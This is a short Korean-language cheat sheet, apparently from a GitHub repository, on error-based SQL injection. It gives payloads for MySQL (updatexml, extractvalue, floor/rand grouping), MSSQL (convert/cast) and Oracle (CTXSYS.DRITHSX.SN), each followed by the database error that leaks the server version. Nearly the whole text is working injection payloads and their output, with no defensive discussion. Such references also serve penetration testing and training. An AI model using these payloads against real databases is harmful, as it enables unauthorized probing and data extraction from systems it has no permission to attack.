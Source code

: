 * ### DBMS별로 Error based SQL Injection을 통해 공격하는 방법이 다양하다. 아래중 일부는 DBMS에 따라 실행되지 않을 수 있다.

<br>

```sql
--MySQL
SELECT updatexml(null,concat(0x0a,version()),null);

ERROR 1105 (HY000)  XPATH syntax error: '5.7.29-0ubuntu0.16.04.1-log'
```

<br>

```sql
--MySQL
SELECT extractvalue(1,concat(0x0a,version()));

ERROR 1105 (HY000)  XPATH syntax error: '5.7.29-0ubuntu0.16.04.1-log'
```

<br>

```sql
--MySQL
SELECT count(*), CONCAT((SELECT version()), 0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;

ERROR 1062 (23000)  Duplicate entry '5.7.29-0ubuntu0.16.04.1-log' for key '<group_key'
```

<br>

```sql
--MSSQL
SELECT convert(int,@@version);
SELECT cast((SELECT @@version) as int);

Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2014 - 12.0.2000.8 (Intel X86) 
	Feb 20 2014 19:20:46 
	Copyright (c) Microsoft Corporation
	Express Edition on Windows NT 6.3 <X64> (Build 9600: ) (WOW64) (Hypervisor)
' to data type int.
```

<br>

```sql
--ORACLE
SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;

ORA-20000: Oracle Text error:
DRG-11701: thesaurus Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production does not exist
ORA-06512: at "CTXSYS.DRUE", line 183
ORA-06512: at "CTXSYS.DRITHSX", line 555
ORA-06512: at line 1
```

